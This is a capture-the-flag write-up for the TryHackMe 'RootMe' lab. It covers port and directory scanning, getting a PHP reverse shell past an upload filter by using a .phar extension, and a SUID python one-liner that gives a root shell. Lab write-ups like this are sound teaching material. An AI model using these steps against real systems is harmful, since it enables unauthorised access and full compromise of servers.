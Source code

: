 ```yaml
---
title: TryHackMe | RootMe
author: Zeropio
date: 2022-09-26
categories: [TryHackMe, easy-room]
tags: [thm, linux]
permalink: /tryhackme/rootme
---
```



# Foothold

The nmap show:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We some some CVE assigned to that Apache version. Fuzzing the web we found:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'http://10.10.179.194/FUZZ'

	css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 112ms]
	js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 284ms]
	uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 111ms]
	panel                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 106ms]
	server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 103ms]
	                        [Status: 200, Size: 616, Words: 115, Lines: 26, Duration: 105ms
```

Inside of `/uplaods/` we found a empty directory. In `/panel/` we can see that we can upload some files. Let’s try with the default pentestmonkey reverse shell.

---

# Fingerprint

Upload the shell to the target and we got the following error:

![Untitled](/assets/img/tryhackme/rooms/rootme/Untitled.png)

Let’s try finding what type of file accepts. Uploading `shell.php3`{: .filepath} allow us. Now we can see the file in the `/uploads/` path. Start a netcat and connect to it. We first see that our file didn’t executed.

Trying with `shell.phar`{: .filepath} will work.

---

# Privilege Escalation

We will search for SUID, finding one particular binary:

```console
bash-4.4$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

	-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
```

We will use [GTFObins](https://gtfobins.github.io/gtfobins/python/#suid) to get the explotation:

```console
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
	root
```